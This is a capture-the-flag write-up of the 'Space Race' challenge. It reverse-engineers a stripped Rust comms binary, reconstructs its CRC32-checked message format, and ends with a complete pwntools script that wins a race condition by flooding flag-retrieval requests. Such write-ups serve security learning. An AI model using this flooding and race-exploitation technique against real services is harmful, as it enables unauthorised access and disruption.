 # Challenge Overview
The Space Race challenge required finding a flaw in the flight control software that communicated with the a comms service binary provided only the comms service binary. The binary provided was a 2MB+ stripped ELF64 file.

# Analysis
Strings in the provided binary made it clear that the binary was written in rust. As such, it was unlikely that the flaw was a memory corruption, and given the name of the program, we guessed that a race condition of some sort was the goal. This binary is large so we started with looking at where data is processed from `recv` functions along with strings.

## Static Analysis
Strings are not null terminated in the rust binary, instead stored as a count and pointer, with the strings occuring one after another making it harder to analyze the individual ones. Looking for flag showed several strings related to a flag process, showing that there are options to start, stop, and request the flag from the flag process. Further the start and stop required an authorization key. Tracing what the value was for the authorization appeared to show that it came from a configuration file, so we could not grab it from the binary.

We created structures in IDA Pro to be able to follow buffers and strings in the rust program, as we were not terribly famililar with the rust API that would be represented by the compiled code. We also looked at the places where recv was called to see how our data was processed. One of the location added to a buffer and was located close the same function that appeared to parse and use the data before accessing the flag process. Tracing functions and the use of the recv'ed buffer showed two helpful points:
1. The data was immediately passed into a CRC32 function that checked the data against the last four bytes of the message
2. One built a message for output that did a lot of bit twiddling. We decided to use this information to attempt to parse the messages received from the service.
![Bit Manipulation](/bit_twiddling.png)

The data received was processed and compared to various task ids to determine if it was flag task, TLM taks, housekeeping task, etc. We did not get as far as determining the IDs, theorizing that they were pulled from the config file.

## Dynamic Analysis
We wrote a script to connect to the service and attempt to parse the received data based on the bit twiddling we saw in the binary. We were then able parse the six byte header consisting of a message type, some sequence number, length of payload minus 3, flags, followed by the payload and finally the CRC32. We were confident we were able to do this correctly once the CRC32 and length matched up. This showed that without interaction there were 3 messages message types received:
1. Type `\x6e` was received the most, consisting of 50 bytes of binary data we never bothered with decoding
2. Type `\x6a` provided a memory and disk usage report in JSON format
3. Type `\x64` was received once and reported `FLAG APP FINE`

We then attempted to determine the task id we needed to send for a flag task. We started by sending a payload of several `\x01` values and using all possible values for the task ID to see if we could get a response, but nothing different was received. After several hours of trying to determine what was wrong (we never bothered actually running the service locally due to needing to determine the config.toml format), we realized a typo in the script was stripping off our header and thus all the CRC32 values were wrong resulting in our message being thrown out. We fixed the issue.... and still had the same problem. After staring at the code for another hour we realized that our length value was wrong as we had included the CRC32 in it and it should not be included. 

Throwing our script again resulted in the type `\x64` returning the string `NOT AUTHORIZED`. We remembered seeing this in the binary, and determined that sending a payload with a value of '\x02' would request the flag instead of trying to start/stop the flag service. Updating the script to send this resulted in `FLAG SERVICE NOT AVAILABLE` so we figured we were on the correct path.
![Retrieve Flage](/flag_task.png)

Running a couple of times showed that `FLAG APP FINE` message always occurred after the 5th time the `\x6a` message was received (sequence number 4). We figured we would try to send the `Retrieve Flag` request at that point, and send a lot of them to try to win a potential race. To our great surprise, this worked the first time! One of the responses received after all of the requests contained the flag, indicating that we successfully sent the request while the service was polling the flag service, winning the race.

## Lessons Learned
We put off running the service locally due to needing
1. A valid configuration file
2. A flag service running separately

but in retrospect this probably would have saved time in debugging our solution.

# Final Solution
```python
from pwn import *
import zlib
import binascii

def send_data(c, typeCode, seq, flags, payload):
    bits1_3 = (typeCode >> 8) & 0x3
    bit4 = (flags >> 16) & 0x8
    bit5 = (flags >> 8) & 0x10
    bits6_8 = (flags & 7) << 5
    bits17_22 = (seq >> 8) & 0x3f
    bits23_24 = (flags >> 18)
    hdr = p8(bits1_3 | bit4 | bit5 | bits6_8) + p8(typeCode & 0xff) + p8(bits23_24 | bits17_22) + p8(seq & 0xff)

    # print 'Encoded %x %x %x as %s' % (typeCode, seq, flags, binascii.hexlify(hdr))
    data = hdr + p16(len(payload) + 3, endian='big') + payload
    msg = data + p32(zlib.crc32(data), endian='big', sign='signed')
    
    c.send(msg)

def read_entry(c):
    header = c.recv(6)
    size = u16(header[4:], endian='big') - 3
    bits = u8(header[0])
    first_bits = bits&3
    bit4 = bits&8
    bit5 = bits&0x10
    bits6_8 = (bits&0xe0) >> 5
    bits9_16 = u8(header[1])
    bits17_22 = u8(header[2]) & 0x3f
    bits23_24 = u8(header[2]) >> 6
    bits25_32 = u8(header[3])
    typeId = bits9_16 | (first_bits << 8)
    seqno = bits25_32 | (bits17_22 << 8)
    flags = bits6_8 | (bit5 << 8) | (bit4 << 16) | (bits23_24 << 24)

    print ('Decoded header %x %x %x from %s' % (typeId, seqno, flags, binascii.hexlify(header[:4])))

    print ("Decoded size 0x%x" % (size))

    payload = c.recv(size)
    print 'Payload:'
    print repr(payload)
    #print binascii.hexlify(payload)
    crc32 = c.recv(4)
    calculated = zlib.crc32(header + payload)
    received = u32(crc32, endian='big', sign='signed')
    return (calculated == received, payload, typeId, seqno, flags)

conn = remote('spacerace.satellitesabove.me', 5063)
print conn.recvline()
conn.sendline('ticket{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}')
real = conn.recvline()
conn.close()

c2 = remote(real[13:].split(':')[0], int(real.split(':')[1]))

print "Connected to service"

for test in range(100):
  status, payload, typeId, seqno, flags = read_entry(c2)
  # Service should be up after this...
  if seqno == 4 and typeId == 0x6a:
  #    print 'Sending test'

    # 64 is the flag related stuff...
    # I believe payload 0 = start, 1 = stop, 2 = retrieve
    
    # Spam it hard
    for i in range(1000):
      send_data(c2, 0x64, 0, 0x3000000, '\x02'*10)

c2.close()
```
